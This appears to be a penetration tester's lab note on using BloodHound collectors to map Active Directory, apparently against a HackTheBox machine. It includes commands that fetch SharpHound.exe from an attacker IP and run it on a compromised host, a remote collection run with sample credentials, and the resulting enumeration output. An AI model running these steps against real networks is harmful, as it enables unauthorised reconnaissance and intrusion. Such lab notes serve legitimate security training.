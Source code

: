 ```yaml
---
Description: BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory or Azure environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify.
URL: https://github.com/BloodHoundAD/BloodHound
---
```


# Bloodhound and collectors

>[!summary]
>BloodHound is a single page Javascript web application, built on top of [Linkurious](http://linkurio.us/), compiled with [Electron](http://electron.atom.io/), with a [Neo4j](https://neo4j.com/)database fed by a PowerShell ingestor.
>
>BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.
>
>\- [BloodHound with Kali Linux: 101](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)

BloodHound collectors can be found in `BloodHound/Collectors/`:

```
$ ls BloodHound/Collectors
AzureHound.ps1  DebugBuilds  SharpHound.exe  SharpHound.ps1
```

## Get data for Bloodhound using remote access

```bash
kali@kali:~/opt/$ pip3 install bloodhound-python
kali@kali:~/opt/$ bloodhound-python -u jsmith -p Password123 -ns 10.11.1.123 -d domain.local -c All
```

## Get data for Bloodhound using SharpHound

>[!summary]
>SharpHound is the official data collector for BloodHound. It is written in C# and uses native Windows API functions and LDAP namespace functions to collect data from domain controllers and domain-joined Windows systems.
>
>\- [SharpHound - BloodHound 3.0.3 documentation](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)

```bash
PS C:\Windows\temp> wget http://10.10.14.164/SharpHound.exe -o SH.exe
PS C:\Windows\temp> .\SH.exe
2022-07-16T09:55:18.7480731-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-07-16T09:55:18.7636730-07:00|INFORMATION|Initializing SharpHound at 9:55 AM on 7/16/2022
2022-07-16T09:55:18.9824331-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-07-16T09:55:19.1543162-07:00|INFORMATION|Beginning LDAP search for streamIO.htb
2022-07-16T09:55:19.2011675-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-07-16T09:55:19.2011675-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-07-16T09:55:49.8262149-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2022-07-16T09:56:03.4512057-07:00|INFORMATION|Consumers finished, closing output channel
2022-07-16T09:56:03.5136596-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2022-07-16T09:56:03.9199086-07:00|INFORMATION|Status: 97 objects finished (+97 2.204545)/s -- Using 57 MB RAM
2022-07-16T09:56:03.9199086-07:00|INFORMATION|Enumeration finished in 00:00:44.7775965
2022-07-16T09:56:04.0761652-07:00|INFORMATION|SharpHound Enumeration Completed at 9:56 AM on 7/16/2022! Happy Graphing!

PS C:\Windows\temp> ls
...
-a----        7/16/2022   9:56 AM          11278 20220716095603_BloodHound.zip
...

# move the file on the attacker machine

$ unzip 20220716095603_BloodHound.zip
Archive:  20220716095603_BloodHound.zip
  inflating: 20220716095603_computers.json
  inflating: 20220716095603_users.json
  inflating: 20220716095603_groups.json
  inflating: 20220716095603_containers.json
  inflating: 20220716095603_domains.json
  inflating: 20220716095603_gpos.json
  inflating: 20220716095603_ous.json

┌──(kali㉿kali)-[~/…/B2R/StreamIO/loot/BH]
└─$ ls
20220716095603_BloodHound.zip  20220716095603_computers.json  20220716095603_containers.json  20220716095603_domains.json  20220716095603_gpos.json  20220716095603_groups.json  20220716095603_ous.json  20220716095603_users.json
```

Then drag and drop all the JSON files inside the BloodHound GUI:

![](../../zzz_res/attachments/bloodhound.png)